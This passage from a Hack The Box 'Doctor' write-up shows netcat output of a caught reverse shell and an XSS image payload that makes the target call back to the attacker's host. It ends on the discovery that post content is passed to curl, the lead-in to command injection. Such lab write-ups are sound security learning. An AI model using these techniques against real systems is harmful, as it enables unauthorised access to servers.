 ```shell
cfx:  ~/Documents/htb/doctor
→ nc -lvnp 8020
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::8020
Ncat: Listening on 0.0.0.0:8020
Ncat: Connection from 10.10.10.209.
Ncat: Connection from 10.10.10.209:45930.
bash: cannot set terminal process group (863): Inappropriate ioctl for device
bash: no job control in this shell
web@doctor:~$ id
uid=1001(web) gid=1001(web) groups=1001(web),4(adm)
```

### Method 2: Command Injection

This is the unintended method to solve the box, originally I did solve the box using this method.

While testing for possible vectors leading to RCE, I was trying random XSS payloads to understand the website response so by sending a HTML injection payload inside the title and XSS payload in the content:

![cmdi](/assets/img/Posts/Doctor/cmdi.png)

While both the payloads reflected as it is inside Posts, XSS payload inside content field did parse and we can observe a hit on the Python server:

```shell
cfx:  ~/Documents/htb/doctor
→ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.209 - - [14/Nov/2020 19:18:32] code 404, message File not found
10.10.10.209 - - [14/Nov/2020 19:18:32] "GET /test HTTP/1.1" 404 -
10.10.10.209 - - [14/Nov/2020 19:20:08] code 404, message File not found
```

Although it's not clear how the request was parsed at this point because the hit on the python server was received instantly as soon as post was submitted without any delay.

To see the complete request, we'll change the port and send the payload again as `<img src="http://10.10.14.27:8080/test" onerror=alert(1)>` and observe the request on the nc listener:

```
cfx:  ~/Documents/htb/doctor
→ nc -lvnp 8080
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::8080
Ncat: Listening on 0.0.0.0:8080
Ncat: Connection from 10.10.10.209.
Ncat: Connection from 10.10.10.209:32800.
GET /test HTTP/1.1
Host: 10.10.14.27:8080
User-Agent: curl/7.68.0
Accept: */*
```
Interestingly, it's showing curl as the User-agent, it appears the content field is parsing the content directly via curl command.
